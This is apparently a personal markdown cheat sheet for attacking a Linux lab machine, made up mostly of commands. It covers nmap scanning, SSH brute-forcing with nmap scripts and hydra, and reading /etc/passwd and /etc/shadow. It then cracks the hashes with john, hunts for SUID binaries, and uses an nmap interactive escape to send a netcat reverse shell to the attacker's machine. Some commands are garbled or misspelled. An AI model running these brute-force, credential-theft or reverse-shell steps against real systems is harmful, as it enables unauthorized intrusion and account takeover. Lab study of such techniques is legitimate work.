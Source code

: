 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having nmap installe in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener
```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/


- 
